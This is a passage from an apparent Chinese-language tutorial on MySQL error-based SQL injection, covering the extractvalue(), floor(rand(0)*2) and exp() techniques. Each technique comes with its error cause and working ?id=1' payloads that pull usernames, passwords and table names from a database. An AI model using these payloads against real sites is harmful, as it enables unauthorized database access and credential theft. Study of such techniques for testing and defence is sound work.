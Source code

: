 **报错原因**

当第二个参数不符合 xpath 语法时，函数使用报错。

**示例**

```sql
?id=1' and extractvalue('<a><b><b/></a>',concat(0x7e,(select group_concat(username) from users), 0x7e)) -- +
```

##### floor()

**基本信息**

- **floor()**: 去除小数部分；
- **count()**: 统计记录数目；
- **rand(x)**: 产生随机数，每个x对应一个固定的值，但是如果连续执行多次值会变化，不过也是可预测的；
- **group by**: 对数据进行分组；
- 错误输出最大长度为64位。

**注入使用格式**

```sql
(SELECT 1 FROM (SELECT count(*), concat((注入语句), floor(rand(0)*2))x FROM information_schema.tables GROUP BY x) a)
```

**报错原因**

[Mysql报错注入之floor(rand(0)*2)报错原理探究 - FreeBuf网络安全行业门户](https://www.freebuf.com/column/235496.html)

**示例**

```sql
?id=1' and (SELECT 1 FROM (SELECT count(*), concat((select table_name from information_schema.tables where table_schema=database() limit 0,1), floor(rand(0)*2))x FROM information_schema.tables GROUP BY x) a) --+
```

##### exp()

**基本信息**

- **exp()**: 返回e 的 输入数次方；
- 错误输出最大长度为64位。

**注入使用格式**

```sql
exp(~(select * from(注入语句) as a))
```

**报错原因**

当传递一个大于709的值时，函数exp()就会引起一个溢出错误。

**示例**

```sql
?id=1' and exp(~(select * from(select group_concat(password) from users) as a)) --+
```
